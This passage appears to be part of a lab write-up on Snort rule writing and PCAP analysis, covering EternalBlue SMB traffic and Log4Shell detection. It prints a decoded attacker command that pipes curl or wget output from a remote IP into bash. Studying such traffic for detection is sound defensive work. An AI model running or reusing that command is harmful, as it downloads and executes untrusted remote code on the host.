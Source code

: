 **Investigation Results:**
- **Total packets:** 25,154
- **IPC$ detections:** 12 packets  
- **Requested path:** `\\192.168.116.138\IPC$`
- **CVE:** CVE-2017-0144 (EternalBlue)
- **CVSS v2 Score:** 9.3 (Critical)

---

### 🪵 TASK 8: Using External Rules (Log4j)

**Objective:** Analyze the critical Log4Shell vulnerability.

#### Payload Size Detection:
```bash
alert tcp any any <> any any (msg: "Detecting file with expected payload byte range"; 
    dsize:770<>855; sid:1000001; rev:1;)
```

**Investigation Highlights:**
- **Total detections:** 26 packets
- **Unique rules triggered:** 4
- **Rule SID prefix:** 210037
- **Payload size range:** 41 packets between 770-855 bytes
- **Encoding:** Base64
- **IP ID:** 62808

#### Decoded Malicious Command:
```bash
(curl -s 45.155.205.233:5874/162.0.228.253:80||wget -q -O- 45.155.205.233:5874/162.0.228.253:80)|bash
```

**CVE Analysis:**
- **Vulnerability:** CVE-2021-44228 (Log4Shell)
- **CVSS v2 Score:** 9.3 (Critical)

---

## 🎓 Key Skills Developed

### **Technical Proficiencies:**
- **Snort Rule Writing:** Content matching, protocol detection, bidirectional rules
- **Traffic Analysis:** PCAP investigation, packet header analysis
- **File Signature Detection:** Magic byte identification for various file types
- **Log Analysis:** Using `strings`, `grep`, and `wc` commands effectively
- **Vulnerability Research:** CVE analysis and CVSS scoring

### **Security Insights:**
- **Network Protocols:** Deep understanding of HTTP, FTP, SMB, and TCP/IP
- **Attack Patterns:** Recognizing brute force, file exfiltration, and exploit signatures
- **Malware Detection:** Identifying suspicious payloads and command injection
- **Incident Response:** Systematic approach to traffic investigation

---